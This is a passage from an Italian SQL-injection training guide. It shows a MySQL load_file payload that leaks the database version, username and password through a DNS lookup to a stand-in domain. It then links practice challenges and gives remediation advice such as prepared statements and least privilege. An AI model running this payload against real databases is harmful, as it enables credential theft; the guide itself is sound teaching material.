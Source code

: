 ```sql
SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.',example.com\\test.txt'))
```

manda una query DNS a `database_version.database_user.database_password.example.com`, permettendo al proprietario del dominio di visualizzare versione del database, username e password dell'utente.


*Challenge riassuntive, le ultime 4: https://training.olicyber.it/challenges#challenge-356 / https://ctf.cyberchallenge.it/challenges#challenge-13*

*Allenamento: Categoria web 2 di CyberChallenge. Se non si ha accesso, PortSwigger Academy: https://portswigger.net/web-security/all-labs#:~:text=SQL%20injection*


### Remediation e mitigation
Le SQLi si possono prevenire facilmente grazie ai [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp), evitando le stored procedures se non siete assolutissimamente sicuri di ciò che state facendo e che non potreste fare la stessa cosa con dei prepared statements (cosa improbabile).

Anche se fare questo è facile, può capitare di sbagliarsi o di non star lavorando da soli. Per mitigare i rischi, è sempre bene non consentire l'uso di batched queries, rimuovere gli accessi da admin e DBA agli account usate dalle applicazioni, ed usare sempre una connessione read-only a meno che non sia strettamente necessario il contrario.

*Avanzato: Dare accesso a views invece che alle tabelle. Whitelistare i comandi che devono poter essere eseguiti da requisiti tecnici del servizio.*

\newpage